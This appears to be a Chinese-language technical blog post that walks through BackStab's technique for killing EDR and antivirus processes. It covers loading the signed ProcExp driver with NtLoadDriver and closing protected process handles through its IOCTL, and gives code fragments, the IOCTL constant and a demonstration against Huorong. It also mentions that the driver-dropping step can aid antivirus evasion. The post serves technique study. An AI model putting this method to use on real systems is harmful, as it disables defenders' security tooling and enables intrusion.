 ```yaml
---
title: EdrKiller
tags: tools
---
```


## 起因

通过阅读 [BackStab](https://github.com/Yaxser/Backstab) 的源码以及简介有感，学习一下该工具的思路

根据 BackStab 的介绍，整个流程为：

> #### OpSec
>
> Here is a quick rundown of what happens
>
> 1. Embedded driver is dropped to disk
> 2. Registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services is created
> 3. The privilege SE_PRIVILEGE_ENABLED is acquired because it is necessary to load the driver
> 4. Driver is loaded using NtLoadDriver to avoid creating a service
> 5. The created Registry key is deleted (service not visible during execution)
> 6. Communication with the driver is via using DeviceIoControl
> 7. For handle enumeration, NtQuerySystemInformation is called
>
> #### What you should also know
>
> 1. The behavior of the tool mimics that of ProcExp. ProcExp drops the driver to the disk, create registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services, calls NtLoadDriver, and then delete the registry key
> 2. You can specify the location to which the driver is dropped and the service name
> 3. When done, the app will unload the driver. The driver is unloaded by first re-creating the registry keys and then calling NtUnloadDriver
> 4. The loaded driver is signed by MS
> 5. The process does not attempt to directly kill protected processes handles, it instructs ProcExp driver to kill them. You won't be accused of attempting to tamper with any processes

简而言之就是加载自带微软官方签名的 ProcExp 驱动，利用其驱动函数做到 Kill EDR 的效果。

## 过程

### ProcEXP 驱动落地

加载 ProcEXP，就需要考虑 ProcEXP.sys 文件如何落地，BackStab 是采用资源文件写入磁盘的方式，落地一个 ProcEXP 文件，然后注册注册表时使用 ProcEXP 的路径，当然还可以直接上传一个 ProcEXP.sys 文件。这里还是复现它的操作：

+ 添加资源文件 –> 导入 ProcEXP.sys

  ![image-20210627190230590](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095819.png)

  ![image-20210627190242606](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095821.png)

+ 操作资源文件落地

  这一套其实也是标准流程，利用操作资源的多个 API 达到释放资源的效果

  + 首先用 FindResource 函数确定资源位置

    ```c
    HRSRC FindResourceA(
      HMODULE hModule,	//NULL 表示当前模块或进程
      LPCSTR  lpName,	//MAKEINTRESOURCE(ID)
      LPCSTR  lpType
    );
    ```

  + LoadResource 加载资源到内存中。

    ```c
    HGLOBAL LoadResource(
      HMODULE hModule,
      HRSRC   hResInfo
    );
    ```

  + LockResource 检索指向内存中指定资源的指针。

    ```c
    LPVOID LockResource(
      HGLOBAL hResData
    );
    ```

  + SizeofResource 计算资源大小

    ```
    DWORD SizeofResource(
      HMODULE hModule,
      HRSRC   hResInfo
    );
    ```

  + CreateFile 和 WriteFile 达到创建和写入的目的

（这种方法应该也可以用做免杀）

![image-20210627195746188](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095824.png)

### 加载驱动

作者在加载驱动这一块做了描述，为了避免创建服务，使用了 NtLoadDriver，但是 NtLoadDriver 是内核态函数，要调用的话就需要使用 ntdll.dll：

```
NT_LOAD_DRIVER NtLoadDriver = (NT_LOAD_DRIVER)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtLoadDriver");
```

NtLoadDriver 函数的参数是注册表，在加载前还需要注册一个注册表，路径为 `HKEY_LOCAL_MACHINE\\System\\CurrentControlSet\\Services\\ProcEXP`

```
status = RegCreateKeyExW(HKEY_LOCAL_MACHINE, regPath, 0, NULL, 0, KEY_ALL_ACCESS, NULL, &hKey, &dwDisposition);
status = RegSetValueEx(hKey, L"Type", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"ErrorControl", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"Start", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"ImagePath", 0, REG_SZ, (const BYTE*)driverPath, (DWORD)(sizeof(wchar_t) * (wcslen(driverPath) + 1)));
```

![image-20210627211804360](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095827.png)

此时再调用 NtLoadDriver 加载驱动：

![image-20210628105357376](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095829.png)

### 连接驱动

ProcEXP驱动已经加载完成后，就需要连接该驱动，以便使用驱动的导出函数 Kill 进程。

```
HANDLE hProcExp = CreateFileA("\\\\.\\PROCEXP152", GENERIC_ALL, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

连接使用的 CreateFileA，此 API 连接驱动时，驱动名称格式默认为 `\\\\.\\DeviceName`，这里的 DeviceName 并不是 PROCEXP，通过火绒剑查看：

![image-20210628135833251](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095832.png)实际连接应该为 PROCEXP152

### 获取保护进程句柄

任务管理器直接关闭 EDR 是无法关闭的：

![image-20210628145917986](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095834.png)

原因就是该进程有保护进程，所以要想 Kill EDR，就需要找到保护进程，参考[这篇文章](https://www.cnblogs.com/zmlctt/p/3979108.html)，简要了解一下隐藏进程和保护进程的概念。 

使用 DeviceIoControl 获取保护进程句柄：

```
DeviceIoControl(hProcExp, IOCTL_OPEN_PROTECTED_PROCESS_HANDLE, (LPVOID)&ulPID, sizeof(ulPID),&hProtectedProcess,sizeof(HANDLE),&dwBytesReturned,NULL);
```

### 获取保护进程PID下的所有句柄

先是使用了 NtQuerySystemInformation，这个 API 可以检索系统信息，包括系统进程、线程相关，任务管理器使用的就是这个 API

```c
fNtQuerySystemInformation _NtQuerySystemInformation = (fNtQuerySystemInformation)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQuerySystemInformation");
```

利用这个 API 获取了系统内所有句柄信息，再去与之前保护进程句柄对应的 Pid 进行比较，找到对应的句柄信息，

```c
if (handleInfo.ProcessId == dwPID) 
{
			if (i % 15 == 0)
			{
				DWORD dwProcStatus = 0;
				GetExitCodeProcess(hProcess, &dwProcStatus);
				if (dwProcStatus != STILL_ACTIVE)
				{
					return;
				}
			}
			ProcExpKillHandle(dwPID, handleInfo.Handle);
		}
```

判断成功后会调用 ProcExpKillHandle 函数，这个函数是作者自己写的，目的就是关闭这个进程的句柄以达到关闭进程的目的，也是工具的核心。

但是在这之前还有一个 i % 15 == 0 的判断，这个判断的目的是每隔 15 个 Handle 检查一次进程是不是已经关闭了，这个数字可以随便调，其目的就是为了在已经关闭进程后能停止循环。

### 利用 ProcEXP 驱动发送 关闭句柄指令

ProcExpKillHandle 函数分为两部分，后一部分是通过 DeviceIoControl 发送 IOCTL_CLOSE_HANDLE 指令，前一部分就是针对这个指令所需要的各种参数。

```
DeviceIoControl(hProcExpDevice, IOCTL_CLOSE_HANDLE, (LPVOID)&ctrl, sizeof(PROCEXP_DATA_EXCHANGE), NULL,0,NULL,NULL);
```

DeviceIoControl 的第二个参数是操作的控制代码，也就是调用驱动内函数时的调用代码，BackStab 的作者应该是已经把 ProcEXP.sys 逆完了，已经了解了关闭句柄的控制代码以及所需参数：

```c
#define IOCTL_CLOSE_HANDLE 2201288708

typedef struct _ioControl
{
	ULONGLONG ulPID;
	PVOID lpObjectAddress;
	ULONGLONG ulSize;
	ULONGLONG ulHandle;
} PROCEXP_DATA_EXCHANGE, * PPROCEXP_DATA_EXCHANGE;
```

## 结果

根据上面的过程凑吧凑吧也能凑出一个只有删除功能的 EdrKiller

以火绒举例：

![image-20210629093739324](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095838.png)

![image-20210629093822512](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095839.png)